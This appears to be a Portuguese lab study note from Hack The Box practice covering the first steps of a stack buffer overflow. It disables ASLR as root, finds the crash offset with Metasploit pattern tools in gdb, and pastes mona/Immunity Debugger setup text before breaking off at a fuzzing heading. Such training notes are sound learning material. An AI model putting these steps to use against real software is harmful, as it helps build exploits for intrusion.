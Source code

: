 # BufferOverflow

# Linux

Primeiro, temos de ter a certeza que o sistema não esteja sempre colocar na memoria de forma aleatoria

```
┌─[eu-dedivip-2]─[10.10.14.83]─[paulinho13@htb-rgrzthmagn]─[~]
└──╼ [★]$ sudo su
┌─[root@htb-rgrzthmagn]─[/home/paulinho13]
└──╼ #sudo echo 0 > /proc/sys/kernel/randomize_va_space
```

`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`

```
gdb ./ovrflw 
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Starting program: /home/paulinho13/ovrflw Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

Program received signal SIGSEGV, Segmentation fault.
0x64413764 in ?? ()
(gdb)
```

`/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 64413764`

```
└──╼ [★]$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 64413764
[*] Exact match at offset 112
```

- **Mona Configuration**
    
    The mona script has been preinstalled, however to make it easier to work with, you should configure a working folder using the following command, which you can run in the command input box at the bottom of the Immunity Debugger window:
    
    ```
    !mona config -set workingfolder c:\mona\%p
    ```
    

# Fuzzing

- **Fuzzing**
    
    Create a file on your Kali box called fuzzer.py with the following contents:
    